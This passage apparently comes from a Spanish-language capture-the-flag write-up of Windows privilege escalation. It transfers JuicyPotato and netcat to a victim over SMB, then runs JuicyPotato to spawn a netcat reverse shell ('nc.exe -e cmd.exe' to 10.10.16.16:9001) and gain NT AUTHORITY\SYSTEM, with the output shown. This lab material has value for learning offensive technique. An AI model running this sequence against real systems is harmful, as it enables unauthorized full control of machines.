 ```
# impacket-smbserver smbFolder $(pwd) -smb2support
```

```
c:\Windows\Temp\privesc>copy \\10.10.16.16\smbFolder\JuicyPotato.exe .
copy \\10.10.16.16\smbFolder\JuicyPotato.exe .
        1 file(s) copied.

c:\Windows\Temp\privesc>copy \\10.10.16.16\smbFolder\nc.exe .
copy \\10.10.16.16\smbFolder\nc.exe .
        1 file(s) copied.

c:\Windows\Temp\privesc>dir
dir
 Volume in drive C has no label.
 Volume Serial Number is 137F-3971

 Directory of c:\Windows\Temp\privesc

28/07/2024  04:15 ��    <DIR>          .
28/07/2024  04:15 ��    <DIR>          ..
28/07/2024  04:11 ��           347.648 JuicyPotato.exe
28/07/2024  04:13 ��            28.160 nc.exe
               2 File(s)        375.808 bytes
               2 Dir(s)   4.641.300.480 bytes free
```

Nos ponemos en `escucha` con `netcat` por el puerto `9001`

```
# nc nlvp 9001
```

Ejecutamos el `JuicyPotato` en la máquina víctima

```
Juicy.Potato.x86.exe  -l 1337 -c "{9B1F122C-2982-4e91-AA8B-E071D54F2A4D}" -p C:\Windows\System32\cmd.exe -a "/c C:\Windows\Temp\privesc\nc.exe -e cmd.exe 10.10.16.16 9001" -t *
Juicy.Potato.x86.exe  -l 1337 -c "{9B1F122C-2982-4e91-AA8B-E071D54F2A4D}" -p C:\Windows\System32\cmd.exe -a "/c C:\Windows\Temp\privesc\nc.exe -e cmd.exe 10.10.16.16 9001" -t *
Testing {9B1F122C-2982-4e91-AA8B-E071D54F2A4D} 1337
......
[+] authresult 0
{9B1F122C-2982-4e91-AA8B-E071D54F2A4D};NT AUTHORITY\SYSTEM

[+] CreateProcessWithTokenW OK

c:\Windows\Temp\privesc>
```

Nos convertimos en el usuario `Administrator`

```
# nc -nlvp 9001
listening on [any] 9001 ...
connect to [10.10.16.16] from (UNKNOWN) [10.129.155.162] 49214
Microsoft Windows [Version 6.1.7600]
Copyright (c) 2009 Microsoft Corporation.  All rights reserved.

C:\Windows\system32>whoami
whoami
nt authority\system
```
